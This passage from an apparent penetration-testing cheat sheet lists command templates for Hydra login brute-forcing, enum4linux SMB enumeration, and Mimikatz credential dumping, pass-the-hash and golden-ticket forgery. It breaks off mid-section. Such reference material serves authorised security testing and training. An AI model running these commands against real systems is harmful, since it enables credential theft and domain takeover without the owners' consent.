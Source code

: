 - <mark>HTTP POST Form Brute-Forcing</mark>:
```bash
hydra -L [USERNAME_LIST] -P [PASSWORD_LIST] [TARGET_URL] http-post-form "/login.php:user=^USER^&password=^PASS^:<error message>" 
```
- <mark>HTTP GET Basic Authorization Brute-Forcing</mark>:
```bash
hydra -L [USERNAME_LIST] -P [PASSWORD_LIST] [TARGET_URL] http-get
```
### enum4linux
- <mark>Basic Use</mark>
```bash
#Enumerate everything possible
enum4linux -a [TARGET]    
#Enumerate shared directories
enum4linux -S [TARGET]
#Enumerate users using RID Cycling
enum4linux -U [TARGET]
#Enumerate OS information
enum4linux -o [TARGET]
#Use a custom username and password for enumeration
enum4linux -a -u [USERNAME] -p [PASSWORD] [TARGET] 
```
# Credential-Extracting
- <mark>Note</mark>: normally requires Administrator (or higher) privilege to run.
### mimikatz
- <mark>Privilege</mark>
```bash
# get `SeDebugPrivilege` rights (this or Local System rights is required for many Mimikatz commands).
PRIVILEGE::Debug
```
- <mark>token</mark>
```bash
# Attempts to elevate to SYSTEM user privileges
token::elevate
```
- <mark>sekurlsa</mark>
```bash
# Require `SeDebugPrivilege` rights
# Attempts to extract plaintext passwords and password hashes from all available sources.
sekurlsa::logonpasswords
#PtH
sekurlsa::pth /user:[Username] /domain:[Domain_Name] /ntlm:[Hash] /run:"[Command]"

# Show the tickets that are stored in memory by
sekurlsa::tickets

# Export any available TGT/TGS tickets
sekurlsa::tickets /export
```
- <mark>kerberos</mark>
```shell
# Delete any existing Kerberos tickets
kerberos::purge

# Create golden or silver tickets and inject them into current user context
# `Protocol`: http, cifs, ...
# Note: No need to specify domain Name for `Existing_Domain_User`
# Golden
kerberos::golden /ptt /sid:[Domain_SID] /krbtgt:[krbtgt_Hash] /domain:[Domain_Name] /user:[Existing_Domain_User]
# Silver
```